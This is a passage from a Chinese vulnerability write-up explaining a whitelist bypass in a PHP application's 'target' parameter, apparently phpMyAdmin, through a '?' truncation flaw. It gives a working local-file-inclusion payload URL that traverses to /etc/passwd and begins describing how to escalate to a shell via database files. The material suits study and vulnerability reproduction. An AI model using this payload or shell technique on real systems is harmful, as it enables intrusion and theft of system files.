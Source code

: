 **$_page**获得第一个问号前面所有字符，比如

```php
abcd.php?a=123
```

那么

```php
$_page = "abcd.php";
```

然后判断**$_page**是否在**$​whitelist**里面，是就返回TRUE

这里开发者的意图应该是认为**$_REQUEST"[target"]**只会接受xxx.php，怕你们连问号都不加，自己在后面加了个再**判断第一个问号**出现的位置，在截取，然后完美得到xxx.php。

```php
mb_strpos($page . '?', '?')		#$page . '?'
```

可惜这里变成了漏洞利用的关键

漏洞测试

Payload

```url
http://127.0.0.1:8080/index.php?target=db_sql.php?/../../../../../../../../etc/passwd
```

![1566786346179](images\1566786346179.png)

这里问号前面的文件在**$whitelis**里面即可绕过判断

```php
db_sql.php?/../../../../../../../../etc/passwd
```

问号后面加 **/** 让服务器认为前面的**db_sql.php?**是文件夹，再在后面加上 **../** ，达到目录穿越，再包含。

那么如何**Getshell**呢

**1、包含数据库文件**

先查看当前数据库路径

```shell
show variables like '%datadir%'
```
